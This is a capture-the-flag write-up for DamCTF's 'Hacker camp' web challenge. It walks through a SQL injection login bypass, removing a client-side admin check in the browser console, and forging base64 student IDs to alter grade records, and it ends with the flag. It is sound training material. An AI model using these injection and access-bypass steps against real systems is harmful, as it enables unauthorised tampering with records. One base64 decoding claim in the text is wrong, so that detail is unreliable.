






# Hacker camp

**Description:** *Natasha Drew wants to go to Hacker Camp but doesn't have the grades she needs. Hack into the student portal and change her grades so she can attend.*

**See form:**


**SQLi:**
    
    login: admin' or 1=1 #
    pass: no matter

**See diary:**



**F12 search and will see:**

```html
    <script>
        var staff = {
            admin   :   false,
            name    :   'rhonda.daniels'
        }
    </script>

    and

    <script src="/assets/js/app.min.js"></script>
```

**Go to */assets/js/app.min.js* and get the code:**

```javascript
(function(s,objectName){
    setupLinks = function(){
        if( s.admin ){
            var sl = document.getElementsByClassName("student-link");
            for (i = 0; i < sl.length; i++) {
                let name = sl[i].innerHTML;
                sl[i].style.cursor='pointer';
                sl[i].addEventListener("click", function(){
                    window.location = '/update-' + objectName + '/' + this.dataset.id;
                });
            }
        }
    };
    updateForm = function(){ 
        var submitButton = document.getElementsByClassName("update-record"); 
        if( submitButton.length === 1 ){ 
            submitButton[0].addEventListener("click", function(){
                var english = document.getElementById("english");
                english = english.options[english.selectedIndex].value;
                var science = document.getElementById("science");
                science = science.options[science.selectedIndex].value;
                var maths = document.getElementById("maths");
                maths = maths.options[maths.selectedIndex].value;
                var grades = new Set(["A","B","C","D","E","F"]);
                if (grades.has(english) && grades.has(science) && grades.has(maths) ) {
                    document.getElementById('student-form').submit();
                }else{ 
                    alert('Grades should only be between A - F');
                }
            });
        }
    };
    setupLinks();
    updateForm();
})
(staff,'student');
```

**See this check:**

```javascript
if( s.admin ){
    ...
}
```

**Remove this check and insert modified code in F12 console:**



**Click on random student:**



**We can modify value! But we need Natasha..**

**See url:**

    https://hacker-camp.chals.damctf.xyz/update-student/TmFuY2llX0JyZXR0

**Decode base64:**

    TmFuY2llX0JyZXR0  : Manav_Dickson

**Making for Natasha:**

    Natasha_Drew : TmF0YXNoYV9EcmV3

**Go on new url:**

    https://hacker-camp.chals.damctf.xyz/update-student/TmF0YXNoYV9EcmV3



**Update values:**



**Flag:**

    dam{n0w_w3_c4n_h4ck_th3_pl4n3t}